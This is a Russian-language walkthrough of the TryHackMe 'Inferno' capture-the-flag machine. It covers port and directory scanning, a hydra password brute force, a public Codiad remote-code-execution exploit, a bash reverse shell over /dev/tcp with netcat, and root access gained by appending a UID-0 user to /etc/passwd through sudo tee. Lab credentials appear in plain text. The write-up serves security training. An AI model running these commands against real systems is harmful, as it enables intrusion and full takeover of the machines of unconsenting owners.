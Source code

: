 # Inferno

:white_check_mark:  [**Hydra**](#hydra)

:white_check_mark: [**Codiad**](#codiad)

:white_check_mark: [**Openssl**](#openssl)

:white_check_mark: [**Tee**](#tee)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV inferno.thm
```

```
PORT      STATE SERVICE       REASON  VERSION
21/tcp    open  tcpwrapped    syn-ack
22/tcp    open  ssh           syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d7:ec:1a:7f:62:74:da:29:64:b3:ce:1e:e2:68:04:f7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBR1uDh8+UHIoUl3J5AJApSgrmxFtvWtauxjTLxH9B5s9E0SThz3fljXo7uSL+2hjphfHyqrdAxoCGQJgRn/o5xGDSpoSoORBIxv1LVaZJlt/eIEhjDP48NP9l/wTRki9zZl5sNVyyyy/lobAj6BYH+dU3g++2su9Wcl0wmFChG5B2Kjrd9VSr6TC0XJpGfQxu+xJy29XtoTzKEiZCoLz3mZT7UqwsSgk38aZjEMKP9QDc0oa5v4JmKy4ikaR90CAcey9uIq8YQtSj+US7hteruG/HLo1AmOn9U3JAsVTd4vI1kp+Uu2vWLaWWjhfPqvbKEV/fravKSPd0EQJmg1eJ
|   256 de:4f:ee:fa:86:2e:fb:bd:4c:dc:f9:67:73:02:84:34 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKFhVdH50NAu45yKvSeeMqyvWl1aCZ1wyrHw2MzGY5DVosjZf/rUzrdDRS0u9QoIO4MpQAvEi7w7YG7zajosRN8=
|   256 e2:6d:8d:e1:a8:d0:bd:97:cb:9a:bc:03:c3:f8:d8:85 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAdzynTIlsSkYKaqfCAdSx5J2nfdoWFw1FcpKFIF8LRv
23/tcp    open  tcpwrapped    syn-ack
25/tcp    open  tcpwrapped    syn-ack
|_smtp-commands: Couldn't establish connection on port 25
80/tcp    open  http          syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Dante's Inferno
88/tcp    open  tcpwrapped    syn-ack
106/tcp   open  pop3pw?       syn-ack
110/tcp   open  tcpwrapped    syn-ack
389/tcp   open  tcpwrapped    syn-ack
464/tcp   open  tcpwrapped    syn-ack
636/tcp   open  tcpwrapped    syn-ack
777/tcp   open  tcpwrapped    syn-ack
783/tcp   open  tcpwrapped    syn-ack
808/tcp   open  ccproxy-http? syn-ack
873/tcp   open  tcpwrapped    syn-ack
1001/tcp  open  webpush?      syn-ack
1236/tcp  open  tcpwrapped    syn-ack
1300/tcp  open  tcpwrapped    syn-ack
2000/tcp  open  tcpwrapped    syn-ack
2003/tcp  open  tcpwrapped    syn-ack
2121/tcp  open  tcpwrapped    syn-ack
2601/tcp  open  tcpwrapped    syn-ack
2602/tcp  open  tcpwrapped    syn-ack
2604/tcp  open  tcpwrapped    syn-ack
2605/tcp  open  tcpwrapped    syn-ack
2607/tcp  open  tcpwrapped    syn-ack
2608/tcp  open  tcpwrapped    syn-ack
4224/tcp  open  tcpwrapped    syn-ack
5051/tcp  open  tcpwrapped    syn-ack
5432/tcp  open  tcpwrapped    syn-ack
5555/tcp  open  tcpwrapped    syn-ack
5666/tcp  open  tcpwrapped    syn-ack
6346/tcp  open  tcpwrapped    syn-ack
6566/tcp  open  tcpwrapped    syn-ack
6667/tcp  open  tcpwrapped    syn-ack
|_irc-info: Unable to open connection
8021/tcp  open  tcpwrapped    syn-ack
8081/tcp  open  tcpwrapped    syn-ack
|_mcafee-epo-agent: ePO Agent not found
8088/tcp  open  radan-http?   syn-ack
9418/tcp  open  tcpwrapped    syn-ack
10000/tcp open  tcpwrapped    syn-ack
10082/tcp open  tcpwrapped    syn-ack
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Главная страница **inferno.thm** выглядит так:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Inferno/1.png)

Сканируем директории командой:
```
gobuster dir -u http://inferno.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://inferno.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/03/20 16:00:18 Starting gobuster in directory enumeration mode
===============================================================
/inferno              (Status: 401) [Size: 458]
```

Перейдем в директорию **/inferno**. Появляется окно авторизации.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Inferno/2.png)

<a name="hydra"></a>

При помощи утилиты **hydra** попробует перебрать пароля для стандартных имен пользователей. Попробуем имя пользователя "admin"
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt -f inferno.thm http-get /inferno/ -t 64
```

```
[80][http-get] host: inferno.thm   login: admin   password: <REDACTED>
```

Вводим найденные учетные данные. Нас перекидывает на другую страницу авторизации. Попробуем те же данные(admin:dante1).

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Inferno/3.png)

<a name="codiad"></a>

Получаем панель админа.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Inferno/4.png)

## Getting shell

Попробуем найти в интернете эксплоит для **codiad**. Скачаем [эксплоит](https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit) и проэксплуатируем.
```
python exploit.py http://admin:dante1@inferno.thm/inferno/ admin dante1 <Твой IP> <Порт> linux
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Inferno/5.png)

Для того, чтобы получить оболочку нужно использовать еще две команды, которые нам предлагает ввести эксплоит.
```
echo 'bash -c "bash -i >/dev/tcp/<Твой ip>/<Твой порт> 0>&1 2>&1"' | nc -lvnp <Твой порт>

nc -lvnp <(Твой порт) + 1>
```

Получаем оболочку, стабилизируем ее.
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Inferno/6.png)

В домашней директории пользователя находит интересный файл **/home/dante/Downloads/.download.dat**. В нем лежит зашифрованный текст. Расшифруем его с помощью [Cyberchef](https://gchq.github.io/CyberChef/). Получим текст, в котором лежит пароль от пользователя.
```
«Or se’ tu quel Virgilio e quella fonte
che spandi di parlar sì largo fiume?»,
rispuos’io lui con vergognosa fronte.

«O de li altri poeti onore e lume,
vagliami ’l lungo studio e ’l grande amore
che m’ha fatto cercar lo tuo volume.

Tu se’ lo mio maestro e ’l mio autore,
tu se’ solo colui da cu’ io tolsi
lo bello stilo che m’ha fatto onore.

Vedi la bestia per cu’ io mi volsi;
aiutami da lei, famoso saggio,
ch’ella mi fa tremar le vene e i polsi».

dante:V1rg1l10h3lpm3
```

## Getting root
<a name="tee"></a>

Подключаемся по shh. Посмотрим права пользователя командой **sudo -l**.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Inferno/7.png)

```
Matching Defaults entries for dante on Inferno:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dante may run the following commands on Inferno:
    (root) NOPASSWD: /usr/bin/tee
```

На [GTFOBins](https://gtfobins.github.io/gtfobins/tee/) найдем нужный эксплоит.

```
LFILE=file_to_write
echo DATA | sudo tee -a "$LFILE"
```

<a name="openssl"></a>

Модифицируем его. Для начала, создадим нового пользователя и впишем его в **/etc/passwd**.
```
openssl passwd -1 -salt toor toor

$1$toor$2SrtV0M1RHrAj9uQL5C7w/
```

Модифицированный эксплоит:
```
echo "toor:\$1\$toor\$2SrtV0M1RHrAj9uQL5C7w/:0:0:root:/root:/bin/bash" | sudo tee -a /etc/passwd
```

Заходим под нового пользователя.
```
su toor
```

Получаем флаг.
